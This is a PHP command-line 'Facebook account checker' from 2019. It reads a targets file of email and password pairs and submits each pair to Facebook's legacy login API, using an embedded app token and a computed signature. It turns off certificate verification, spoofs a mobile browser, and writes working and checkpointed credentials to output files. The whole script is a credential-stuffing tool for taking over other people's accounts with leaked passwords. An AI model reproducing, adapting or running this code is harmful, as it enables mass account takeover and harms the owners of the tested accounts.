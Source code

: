 # https-Rizal-bigproject-py.com
<?php

$biru = "\e[34m";
$kuning = "\e[33m";
$cyan = "\e[96m";
$magenta = "\e[35m";
$hijau = "\e[92m";
$merah = "\e[91m";
echo "$cyan + //////////////////////////////+\n";
echo "$cyan ___           _     _
|_ _|_ __  ___(_) __| | ___
 | || '_ \/ __| |/ _` |/ _ \
 | || | | \__ \ | (_| |  __/
|___|_| |_|___/_|\__,_|\___|\n";
echo "_   _                 _
| | | | ___  __ _ _ __| |_ ____
| |_| |/ _ \/ _` | '__| __|_  /
|  _  |  __/ (_| | |  | |_ / /
|_| |_|\___|\__,_|_|   \__/___|\n\n";
echo "+ //////////////////////////////+\n";
echo " FACEBOOK ACCOUNT CHECKER 2019 \n";
echo "+ //////////////////////////////+\n";


if(isset($argv[1])) {
    if(file_exists($argv[1])) {
        $cokot = explode(PHP_EOL, file_get_contents($argv[1]));
        foreach($cokot as $iyeukorbannaatawalistna) {
            $potong = explode("|", $iyeukorbannaatawalistna);
            nyobianAkun($potong[0], $potong[1]);
          
        }
    }else die("File doesn't exist!");
}else die("$merah Usage: php fbcheck.php targets.txt \n");
function nyobianAkun($emailnaetateh, $iyeutehsandina) {
    $asaltisakabehna = array(
        "access_token" => "350685531728|62f8ce9f74b12f84c123cc23437a4a32",
        "email" => $emailnaetateh,
        "password" => $iyeutehsandina,
        "locale" => "en_US",
        "format" => "JSON"
    );
    $sig = "";
    foreach($asaltisakabehna as $key => $value) { $sig .= $key."=".$value; }
    $sig = md5($sig);
    $asaltisakabehna['sig'] = $sig;
    $ch = curl_init("https://api.facebook.com/method/auth.login");
    curl_setopt($ch, CURLOPT_POST, true);
    curl_setopt($ch, CURLOPT_POSTFIELDS, $asaltisakabehna);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
    curl_setopt($ch, CURLOPT_USERAGENT, "Opera/9.80 (Series 60; Opera Mini/7.0.32400/28.3445; U; en) Presto/2.8.119 Version/11.10");
    $hasilnatidiyeulurrr = json_decode(curl_exec($ch));
    
     sleep(1);
echo "\e[34m =>\e[34m ";
    $emailjeungpasswordnangahiji =  $emailnaetateh."|".$iyeutehsandina;
    if(isset($hasilnatidiyeulurrr->access_token)) { 
    	 echo $hijau;
        echo $emailjeungpasswordnangahiji."  \e[33m [LIVE]".PHP_EOL;
        file_put_contents("live.txt", $emailjeungpasswordnangahiji.PHP_EOL, FILE_APPEND);
    }elseif($hasilnatidiyeulurrr->error_code == 405 || preg_match("/User must verify their account/i", $hasilnatidiyeulurrr->error_msg)) {
        echo $merah;
echo  $emailjeungpasswordnangahiji."\e[91m [CHECKPOINT]\e[34m".PHP_EOL;
        file_put_contents("checkpoint.txt", $emailjeungpasswordnangahiji.PHP_EOL, FILE_APPEND);
    }else echo  $emailjeungpasswordnangahiji."\e[91m  [DEAD]\e[34m".PHP_EOL;
}

